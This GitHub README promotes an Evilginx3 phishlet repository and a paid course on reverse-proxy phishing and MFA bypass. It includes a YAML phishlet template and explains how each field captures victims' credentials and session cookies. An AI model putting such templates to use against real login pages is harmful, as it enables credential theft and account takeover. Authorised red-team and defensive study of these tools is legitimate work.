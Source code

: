 
# Updated Evilginx3 Phishlets
I've dedicated substantial time and effort to create and update new phishlets for Evilginx3. 
In this repository, you'll find many custom Evilginx phishlets, finely crafted and updated to suit real-world applications.

# Learn More: Interested in mastering Enterprise Phishing with Evilginx3?

## Enroll in our Evilginx 3.0 Professional Masterclass!

Our comprehensive course focuses on deploying Evilginx for dynamic phishing scenarios, students will master the nuances reverse-proxy phishing, email protocols (SPF, DMARC, DKIM), content obfuscation, and executing attacks that effectively evade security measures, ensuring a comprehensive grasp of modern attacks along with a vast archive of custom tools & templates to aid your campaigns.

### Grab the course here: www.simplerhacking.com/courses/evilginx-course

[![Evilginx Pro Masterclass](https://img.shields.io/badge/Evilginx-Professional%20Masterclass-darkred?style=for-the-badge&logo=github)](https://www.simplerhacking.com/courses/evilginx-course)



![Evilginx Pro](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/e8845e9f-d993-4c05-adac-d213073aba4c)

![evilginx pro course o365 demo gif](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/ac9f7cbd-39e7-4ecb-aff7-549c39f9e6db)


![preview](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/500f76e8-d1aa-4a79-9bbf-5fbec64003df)



## Use Code: GITHUB20 for a 20% off of the course!
### About the course: 
Become an Evilginx professional & learn how to bypass modern MFA with the latest version Evilginx3, send verified campaigns, capture credentials, record & analyze campaign results. Get access to Phishlets not available on our public Github as well as tons of resources, templates & generators to aid your engagements.

### Course Previews:



![Evilginx Pro Course Preview](https://github.com/simplerhacking/Phishlet-Creator/assets/141525149/66bbf548-b340-4c91-8694-1f77209a5edb)

https://github.com/simplerhacking/Evilginx3-Tutorial/assets/141525149/fa7dcbf0-13cb-4cfc-b7a8-f944d824b0c2

![evilginx3 new course 3](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/389cadcc-4fa3-4859-89e8-0ce95af23f65)

![GAP94xaWkAA_iTl](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/231ed9c9-6170-4c21-9d4c-fb58ffeda325)

![evilginx course bonus collection](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/54e990c9-77d8-4ae1-922d-043bc10957f9)



Learn how attackers use Evilginx & other tools to bypass MFA & gain access to information. Learn how Modern Business Email Compromise (BEC), and Evilginx Man-in-the-Middle (MITM) attacks are done from an attacker's perspective.
  
## Need Custom Phishlets? 
Check our constantly updating our free Evilginx3 Phishlet Repository for Red Teams

You can find it here: https://github.com/simplerhacking/Evilginx3-Phishlets

## Questions?
## Send us an email to: info@simplerhacking.com 

## Simpler Hacking Evilginx Phishlet Template (Use this template to make your own!)

```yaml
name: 'Your First Phishlet'
author: 'Simpler Hacking'
min_ver: '3.2.0'

proxy_hosts:
  - { phish_sub: 'www', orig_sub: 'www', domain: '{domain}', session: true, is_landing: true }

sub_filters: 
  - { hostname: '{hostname}', sub: 'www', domain: '{domain}', search: '{domain}', replace: '{hostname}', mimes: ['text/html', 'application/javascript', 'text/css', 'application/json', 'image/x-icon', 'text/plain', 'application/xml', 'image/*', 'font/*']} 
  - { hostname: '{hostname}', sub: 'www', domain: '{domain}', search: '{domain}', replace: '{hostname}', mimes: ['application/x-www-form-urlencoded']}

auth_tokens:
  - domain: '{domain}'
    keys: ['session']

creds:
  - key: 'username'
    search: ['(.*)']
    type: 'post'
  - key: 'password'
    search: ['(.*)']
    type: 'post'

auth_urls:
  - url_regex: 'https://{hostname}/login'
    valid_statuses: [200]

login:
  username: user
  password: pass
  url: https://www.{domain}/login

# This is just a demo example of a phishlet for 3.2.0

# You can find phishlets here: https://github.com/simplerhacking/Evilginx3-Phishlets

```
**Explanation of Phishlet Parameters:**

- `name:` Identifies the name of the phishlet.
- `author:` Specifies the phishlet author.
- `min_ver:` Specifies the minimum Evilginx version that is compatible with your phishlet.
- `proxy_hosts:` Indicates the domain and subdomains to proxy. The `phish_sub` is the subdomain that the phishing page will imitate.
- `sub_filters:` Allows the phishlet to replace instances of the actual domain name with the phishing domain, which is critical for the phishing page to function correctly.
- `auth_tokens:` Identifies the cookies that should be captured from the victim's browser to gain access to the victim's session.
- `creds:` This field determines the credentials that the phishlet is engineered to steal. The `key` is the name of the credential (like username or password) and `search` is a regular expression that the program will use to identify and extract these details from the user's input.
- `auth_urls:` Defines the URLs that Evilginx will treat as the authenticated URLs. After the victim logs in, Evilginx will look out for a redirect to one of these URLs, at which point it will steal the listed `auth_tokens`.
- `login:` Here you specify the identifiers of the username and password fields in the login form on the original webpage. The `url` is the link of the page where the victim enters their credentials.
- `force_post:` If set to true, it forces the alteration of HTTP method from GET to POST.
- `is_landing:` If set to true, it means that the page is a landing page for the phishing attack.
- `js_inject:` This is where you can write some JavaScript to be injected in the webpage. It's typically used to enhance the phishing attack and ensure a smoother victim experience.
- `domain:` This is a template variable used to replace target hostname used in phishlet configuration.

## Enroll in our free Evilginx Training: www.simplerhacking.com/courses/evilginx-webinar




## Disclaimer
The tools here are intended solely for legal and ethical use by cybersecurity professionals in controlled environments. 
Any illegal or malicious use is strictly prohibited.
I disclaim all responsibility for any harm, loss, or damage that may arise from improper use.

<img src="https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/bde083c3-551d-4c05-961d-8e493731a273" width="750" height="450">
